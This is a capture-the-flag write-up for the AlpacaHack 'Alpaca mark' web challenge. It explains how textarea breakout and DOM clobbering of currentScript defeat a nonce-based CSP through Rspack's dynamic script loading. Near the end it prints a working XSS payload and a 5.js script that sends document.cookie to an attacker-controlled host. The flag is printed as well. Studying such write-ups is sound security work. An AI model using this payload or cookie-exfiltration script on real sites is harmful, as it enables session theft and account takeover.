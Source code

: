 ---
title: 'AlpacaHackCTF-2025'
description: 'writeups for Alpaca Hack CTF WEB round 8 solo ctf'
date: 2025-05-17
image: './alpaca.png'
---

# Introduction Alpaca mark

alpaca mark is a web client side challenge that is a Simple markdown note taking application with EJS backend.


## Unintended solution

tldr , break out of `<textarea/>` template to get html injection. [RSpack](https://github.com/advisories/GHSA-84jw-g43v-8gjm) third party package is vulnerable to Dom clobbering. 
Use the Dom clobbering to load our own script to allow the csp to get xss.


```JavaScript
app.get("/", (req, res) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'`
  );

  const markdown = req.query.markdown?.slice(0, 512) ?? DEFAULT_MARKDOWN;
  res.render("index", {
    nonce,
    markdown,
  });
});
```

Html isn't filtered so there's potential to get xss but the csp is strict and has a random nonce.
 In these kind of scenarios the only way to get xss with a random nonce csp is we have to find a script gadget that will load our own script in.

```html
 <!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <title>AlpacaMark</title>
    <script nonce="<%= nonce %>" src="/main.js" defer></script>
    <link href="/main.css" rel="stylesheet" />
  </head>
  <body>
    <main class="container">
      <h1>AlpacaMark</h1>
      <div id="previewElm"></div>
      <form id="renderElm" action="/" method="get">
        <textarea name="markdown" required><%- markdown %></textarea>
        <button type="submit">Render</button>
      </form>
    </main>
  </body>
</html>
```

Since there isn't hmtl or markdown filtering we can break out of the textarea then include our own Html like this: `</textarea> html injection` . 
No need to close it since the browser will automatically do it when it renders. 

Now we have to find a script gadget which I struggled at first because I couldn't find it in the given source code. 
I noticed that the client side code uses a third party package RSpack.

```JavaScript
import { defineConfig } from "@rspack/cli";  
  
export default defineConfig({  
entry: {  
main: "./client/index.js",  
},  
experiments: {  
css: true,  
},  
devtool: false,
```

I decided to start debugging and looking through the client side code with devtools perhaps we could find a script in there. It was a bit difficult to read and debug since its minified code but I just grepped `script` and set a few breakpoints. 
we do indeed find something :  

![Alt text for the image](./devtools.png)


In main.js RSpack attempts to load a external script called `5.js` dynamically with this code :


 ```JavaScript
 ( () => {
        r.g.importScripts && (e = r.g.location + "");
        var e, t = r.g.document;
        if (!e && t && (t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            if (n.length)
                for (var s = n.length - 1; s > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[s--].src
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        r.p = e = e.replace(/^blob:/, "").replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/")
    }
    )(),
    ```

 The end result here is to note that it automatically determines the base path where assets should be loaded from, based on the location of the currently executing script.


I thought maybe since we have dom clobbering we could use it to insert our own script but looking at this code it actually tries to stop against Dom clobbering: 

```JavaScript
(t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            ```
But this isn't fully mitigated! If we clobber `currentScript` the check will fail but will then check all script tags on the page document and load scripts from the base url found in the script tags. 
Also if you look at the html source code we can see that main.js will load after our payload renders because `main.js` is loaded with `defer`. 
So essentially we can hijack `5.js `if we name our script that and once it renders , `main.js` will load after due to using `defer` then RSpack will load our script.


 a payload like this should work :

```JavaScript
</textarea><img name="currentScript"><script src="https://oursite/5.js"></script>
```

in 5.js :
```JavaScript
top.location = 'https://oursite/flag?' + document.cookie 
```

submit that to the admin bot and we should get the flag : `Alpaca{the_DOM_w0rld_is_po11uted_and_clobber3d}`

the intended solution apparently involved a prototype pollution but I'm not sure how that would work in this challenge will have to wait on the author :)
